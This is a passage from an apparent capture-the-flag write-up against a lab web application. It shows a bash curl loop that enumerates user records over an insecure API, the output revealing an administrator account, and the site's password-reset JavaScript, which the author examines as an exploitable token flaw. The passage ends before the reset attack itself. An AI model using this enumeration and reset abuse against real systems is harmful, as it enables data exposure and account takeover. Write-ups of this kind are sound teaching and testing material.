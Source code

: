 ```bash
#!/bin/bash
for i in {1..100}; do
    curl -s "http://<target_ip>:<target_port>/api.php/user/$i"
done
```

I determined the range `1..100` experimentally:

 - `uid=0` → invalid
 - `uid=1` and `uid=100` → valid responses
 - `uid=101` → invalid

This enumeration confirmed that user data could be retrieved for arbitrary `uid`s.

Using the keyword search method described in the *Enumeration Strategy*, I reviewed the output of my script and identified a privileged account:

```bash
[★]$ curl -s http://<target_ip>:<target_port>/api.php/user/52
{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```


### Exploitation – Password Reset Abuse

#### Vulnerability Discovery

In the source code of `settings.php`, I found the password reset logic:

```javascript
function resetPassword() {
    if ($("#new_password").val() == $("#confirm_new_password").val()) {
        $("#error_string").html('');
        fetch(`/api.php/token/${$.cookie("uid")}`, {
            method: 'GET'
        }).then(function(response) {
            return response.json();
        }).then(function(json) {
            fetch(`/reset.php`, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded'
                },
                body: `uid=${$.cookie("uid")}&token=${json['token']}&password=${$("#new_password").val()}`
            }
```

The workflow:

 - A token is retrieved via `/api.php/token/{uid}`.
 - A POST request is made to `/reset.php` with `uid`, `token`, and the new `password`.
